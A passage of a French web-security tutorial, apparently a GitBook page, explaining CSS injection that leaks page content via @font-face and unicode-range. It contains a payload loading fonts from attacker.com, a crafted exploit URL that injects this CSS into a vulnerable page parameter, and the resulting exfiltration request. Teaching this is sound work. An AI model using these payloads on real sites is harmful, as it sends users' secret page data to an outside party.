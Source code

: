 ```html
</html>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

En CSS le caractère `#` va permettre de sélectionner un attribut `id` spécifique :

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  @font-face {
    // Nom de la police d'écriture (arbitraire)
    font-family: attack;
    
    // URL du serveur de l'attaquant
    // Permet de savoir quel caractère a été récupéré
    src: url(https://attacker.com/?leak=a); 
    
    // Test de la présence du caractère spécifié en unicode
    unicode-range: U+0061;
  }
  
  // Id ciblé par l'attaque
  #secret {
    // Applique la police d'écriture
    font-family: attack;
  }
</style>
```
{% endcode %}

Le lien malicieux permettant l'exploitation en fonction de la valeur de l'attribut `id` est alors le suivant :

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode-par-id.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=s);unicode-range:U%2b0073;}%23secret{font-family:attack;}
```
{% endcode %}

{% hint style="warning" %}
Attention à bien encoder les caractères "+" et "#" par leur équivalent URL encodée, respectivement "%2b" et %23".
{% endhint %}

{% code overflow="wrap" %}
```http
GET /?leak=s HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}
